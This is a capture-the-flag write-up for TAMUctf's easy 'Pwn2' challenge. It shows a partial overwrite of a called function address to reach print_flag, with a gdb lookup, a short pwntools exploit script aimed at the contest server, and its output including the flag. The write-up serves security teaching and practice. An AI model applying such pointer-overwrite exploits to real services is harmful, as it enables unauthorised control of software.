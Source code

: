 ## Pwn2 - Pwn

**Description:** ```nc pwn.tamuctf.com 4322```
**Challenge:** : pwn2
**Difficulty:** easy
**Solved by:** Neolex  

**Solution:**  
First the binary ask us a question : "Which function would you like to call?"
Let's send a lot of A's : the programs **segfault** at address **0x56555641**
the 41 is the byte we controlled in the address we call because 0x41 is the ascii value of "A".
Let's run the function print_flag which is at 0x565556d8 : 
```
gdb-peda$ p print_flag 
$1 = {<text variable, no debug info>} 0x565556d8 <print_flag>
```
so we just have to send a lot of 0xd8 to call the print_flag function : 
```python
from pwn import *

p = remote('wn.tamuctf.com', 4322)
p.sendline('\xd8'*500)
print p.recvall()
```
let's run it : 
```
$ python exploit.py
[+] Opening connection to wn.tamuctf.com on port 4322: Done
[+] Receiving all data: Done (109B)
[*] Closed connection to wn.tamuctf.com port 4322
Which function would you like to call?
This function is still under development.
gigem{4ll_17_74k35_15_0n3}
```
we got the flag !

**Flag:**  
gigem{4ll_17_74k35_15_0n3}
	
